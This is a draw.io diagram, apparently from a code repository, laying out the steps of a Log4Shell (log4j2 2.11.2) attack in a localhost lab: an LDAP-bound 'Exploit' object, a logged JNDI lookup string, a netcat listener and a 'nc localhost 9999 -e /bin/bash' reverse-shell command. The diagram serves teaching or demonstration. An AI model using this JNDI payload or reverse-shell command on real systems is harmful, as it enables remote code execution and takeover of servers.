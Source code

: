 <mxfile version="16.1.2" type="device"><diagram id="dzwP-lstOH_kROswbDml" name="Page-1"><mxGraphModel dx="1102" dy="561" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0"><root><mxCell id="0"/><mxCell id="1" parent="0"/><mxCell id="qHG8ef42Uh-8sCXiXTGj-26" value="" style="rounded=1;whiteSpace=wrap;html=1;" parent="1" vertex="1"><mxGeometry x="20" y="130" width="760" height="780" as="geometry"/></mxCell><mxCell id="vKMC9OiRz-_jKN0iEcEp-5" value="" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1"><mxGeometry x="350" y="490" width="420" height="350" as="geometry"/></mxCell><mxCell id="qHG8ef42Uh-8sCXiXTGj-2" value="log4j2 2.11.2" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;whiteSpace=wrap;rounded=0;" parent="1" vertex="1"><mxGeometry x="360" y="555" width="170" height="30" as="geometry"/></mxCell><mxCell id="qHG8ef42Uh-8sCXiXTGj-3" value="&lt;div&gt;&lt;u&gt;logs&lt;/u&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;INFO&amp;nbsp; exploit.v2.Log4j2Lookup - exploit.v2.Exploit@4b8ee4de&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;shape=mxgraph.basic.document;align=left;verticalAlign=top;" parent="1" vertex="1"><mxGeometry x="540" y="670" width="220" height="90" as="geometry"/></mxCell><mxCell id="qHG8ef42Uh-8sCXiXTGj-12" value="OpenLDAP&lt;br&gt;&lt;div&gt;Listening on localhost:1389&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;" parent="1" vertex="1"><mxGeometry x="40" y="220" width="160" height="420" as="geometry"/></mxCell><mxCell id="qHG8ef42Uh-8sCXiXTGj-27" value="localhost" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;whiteSpace=wrap;rounded=0;" parent="1" vertex="1"><mxGeometry x="50" y="170" width="110" height="30" as="geometry"/></mxCell><mxCell id="iy1MPq2FVCWlZtTMLoDb-4" value="1" style="ellipse;whiteSpace=wrap;html=1;aspect=fixed;fontSize=14;fontStyle=1;labelBackgroundColor=none;fontColor=#FFFFFF;fillColor=#000000;" parent="1" vertex="1"><mxGeometry x="300" y="520" width="30" height="30" as="geometry"/></mxCell><mxCell id="vKMC9OiRz-_jKN0iEcEp-4" value="logger.info(&quot;${jndi:ldap://localhost:389/cn=malicious-exploit,dc=brochain}&quot;);" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1"><mxGeometry x="360" y="594" width="420" height="30" as="geometry"/></mxCell><mxCell id="vKMC9OiRz-_jKN0iEcEp-6" value="2" style="ellipse;whiteSpace=wrap;html=1;aspect=fixed;fontSize=14;fontStyle=1;labelBackgroundColor=none;fontColor=#FFFFFF;fillColor=#000000;" vertex="1" parent="1"><mxGeometry x="210" y="576" width="30" height="30" as="geometry"/></mxCell><mxCell id="vKMC9OiRz-_jKN0iEcEp-7" value="3" style="ellipse;whiteSpace=wrap;html=1;aspect=fixed;fontSize=14;fontStyle=1;labelBackgroundColor=none;fontColor=#FFFFFF;fillColor=#000000;" vertex="1" parent="1"><mxGeometry x="500" y="670" width="30" height="30" as="geometry"/></mxCell><mxCell id="vKMC9OiRz-_jKN0iEcEp-1" value="" style="shape=image;verticalLabelPosition=bottom;labelBackgroundColor=default;verticalAlign=top;aspect=fixed;imageAspect=0;image=https://cdn-icons-png.flaticon.com/512/226/226777.png;" vertex="1" parent="1"><mxGeometry x="360" y="494" width="52" height="52" as="geometry"/></mxCell><mxCell id="vKMC9OiRz-_jKN0iEcEp-9" value="nc -lp 9999" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1"><mxGeometry x="40" y="770" width="160" height="70" as="geometry"/></mxCell><mxCell id="vKMC9OiRz-_jKN0iEcEp-10" value="" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1"><mxGeometry x="340" y="214" width="420" height="166" as="geometry"/></mxCell><mxCell id="vKMC9OiRz-_jKN0iEcEp-11" value="" style="shape=image;verticalLabelPosition=bottom;labelBackgroundColor=default;verticalAlign=top;aspect=fixed;imageAspect=0;image=https://cdn-icons-png.flaticon.com/512/226/226777.png;" vertex="1" parent="1"><mxGeometry x="350" y="218" width="52" height="52" as="geometry"/></mxCell><mxCell id="vKMC9OiRz-_jKN0iEcEp-12" value="exploit.v2.JNDIBind" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1"><mxGeometry x="350" y="278" width="170" height="30" as="geometry"/></mxCell><mxCell id="vKMC9OiRz-_jKN0iEcEp-13" value="Exploit e = new Exploit();&lt;br&gt;context.bind(&quot;cn=malicious-exploit,dc=brochain&quot;, e);" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1"><mxGeometry x="350" y="308" width="420" height="42" as="geometry"/></mxCell><mxCell id="vKMC9OiRz-_jKN0iEcEp-14" value="" style="endArrow=classic;html=1;rounded=0;" edge="1" parent="1"><mxGeometry width="50" height="50" relative="1" as="geometry"><mxPoint x="322" y="278" as="sourcePoint"/><mxPoint x="210" y="278" as="targetPoint"/></mxGeometry></mxCell><mxCell id="vKMC9OiRz-_jKN0iEcEp-15" value="0" style="ellipse;whiteSpace=wrap;html=1;aspect=fixed;fontSize=14;fontStyle=1;labelBackgroundColor=none;fontColor=#FFFFFF;fillColor=#000000;" vertex="1" parent="1"><mxGeometry x="300" y="239" width="30" height="30" as="geometry"/></mxCell><mxCell id="vKMC9OiRz-_jKN0iEcEp-16" value="" style="shape=image;verticalLabelPosition=bottom;labelBackgroundColor=default;verticalAlign=top;aspect=fixed;imageAspect=0;image=https://mothersruin.com/software/SuspiciousPackage/images/package-icon.png;" vertex="1" parent="1"><mxGeometry x="150" y="260" width="48" height="48" as="geometry"/></mxCell><mxCell id="vKMC9OiRz-_jKN0iEcEp-17" value="" style="endArrow=classic;html=1;rounded=0;" edge="1" parent="1"><mxGeometry width="50" height="50" relative="1" as="geometry"><mxPoint x="322" y="561.5" as="sourcePoint"/><mxPoint x="210" y="561.5" as="targetPoint"/></mxGeometry></mxCell><mxCell id="vKMC9OiRz-_jKN0iEcEp-18" value="" style="endArrow=classic;html=1;rounded=0;" edge="1" parent="1"><mxGeometry width="50" height="50" relative="1" as="geometry"><mxPoint x="220" y="610" as="sourcePoint"/><mxPoint x="320" y="610" as="targetPoint"/></mxGeometry></mxCell><mxCell id="vKMC9OiRz-_jKN0iEcEp-19" value="" style="shape=image;verticalLabelPosition=bottom;labelBackgroundColor=default;verticalAlign=top;aspect=fixed;imageAspect=0;image=https://mothersruin.com/software/SuspiciousPackage/images/package-icon.png;" vertex="1" parent="1"><mxGeometry x="312" y="610" width="48" height="48" as="geometry"/></mxCell><mxCell id="vKMC9OiRz-_jKN0iEcEp-20" value="Runtime.getRuntime().exec(&quot;nc localhost 9999 -e /bin/bash&quot;);" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1"><mxGeometry x="360" y="790" width="420" height="30" as="geometry"/></mxCell><mxCell id="vKMC9OiRz-_jKN0iEcEp-21" value="" style="endArrow=classic;html=1;rounded=0;" edge="1" parent="1"><mxGeometry width="50" height="50" relative="1" as="geometry"><mxPoint x="322" y="804.5" as="sourcePoint"/><mxPoint x="210" y="804.5" as="targetPoint"/></mxGeometry></mxCell><mxCell id="vKMC9OiRz-_jKN0iEcEp-22" value="4" style="ellipse;whiteSpace=wrap;html=1;aspect=fixed;fontSize=14;fontStyle=1;labelBackgroundColor=none;fontColor=#FFFFFF;fillColor=#000000;" vertex="1" parent="1"><mxGeometry x="300" y="770" width="30" height="30" as="geometry"/></mxCell></root></mxGraphModel></diagram></mxfile>